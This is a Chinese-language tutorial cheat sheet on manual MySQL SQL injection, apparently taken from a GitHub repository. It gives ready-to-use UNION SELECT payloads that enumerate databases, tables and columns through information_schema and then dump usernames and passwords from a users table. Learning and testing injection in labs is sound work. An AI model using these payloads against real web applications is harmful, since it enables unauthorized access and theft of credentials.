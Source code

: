 # MYSQL 注入

- 常见注释：
```mysql
--+ 等同于-- -
%23 表示#号 get方式提交参数时需要手动进行编码处理
```

>解释：
说明一下：我们在注入的时候，为什么使用的%23而不是#，因为由于编码的问题，在浏览器中直接提交#会变成空，所以我们使用url编码后的#，即%23，当传输到后端时，后端语言会对它自动解码成#，才能够成功带入数据库查询。

+ 查询字段：
```mysql
order by 1  表示查询当前查询库（表存在多少个列）
```

------------------

+ 信息收集
在爆出的字段值里面可以替换为我们的恶意语句，前期主要是收集信息，包括判断当前数据库是否是root用户，MySQL的版本等，一般收集这些信息常用一些MySQL自带的函数去收集信息:MySQL常用的系统函数

```mysql
version()             #MySQL版本
user()                #数据库用户名
database()            #数据库名
@@datadir             #数据库路径
@@version_compile_os  #操作系统版本
```

- 联合查询
UNION SELECT 联合查询，手工注入经典语句
- 查询当前数据库名
```mysql
SELECT 1,2,3 
```
这段语句本身没有任何意义，所以页面按返回正常。
为了信息收集，我们得知道当前这个页面里面的值，调用的具体是数据库中的哪个字段才可以，可以故意构造一个错误的语句，来爆出错误的字段
```mysql
and 1=2 UNION SELECT 1,database(),3 --+
```
- 查询mysql版本
```mysql
and 1=2 UNION SELECT 1,2,version() --+
```
- 查询数据库用户和路径
```mysql
and 1=2 UNION SELECT 1,user(),@@datadir --+
```


----------
- 暴库方法一

Mysql 5 以上有内置库 information_schema，存储着mysql的所有数据库和表结构信息
```mysql
and1=2 union select 1,SCHEMA_NAME,3,4,5,6,7,8,9 from information_schema.SCHEMATA limit 0,1 获取第一个数据库
and1=2 union select 1,SCHEMA_NAME,3,4,5,6,7,8,9 from information_schema.SCHEMATA limit 1,1
```

通过改变上语句limit 1,1 1前面的1 而爆出不同的数据库名


----------
- 暴库
查询所有数据库有时候忍不住想看下其他的数据库的内容，可以用这个语句查询所有的数据库
```mysql
and 1=2 UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata --+
```

- 爆表名
```mysql
and 1=2 UNION SELECT 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database() --+
```

- 单引号-数据库  指定数据库进行爆表
```mysql
and 1=2 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```
hex编码数据库名
使用火狐自带的HackBar插件可以快速的进行hex编码
hex编码后在前面加上0x表明这里是16进制编码 ，同理这些方法放到查询数据库的列名中也是可以使用的。

- 爆字段
```mysql
and 1=2 UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```
- 爆字段内容
```mysql
and 1=2 UNION SELECT 1,2,group_concat(id,username,password) from users --+
```
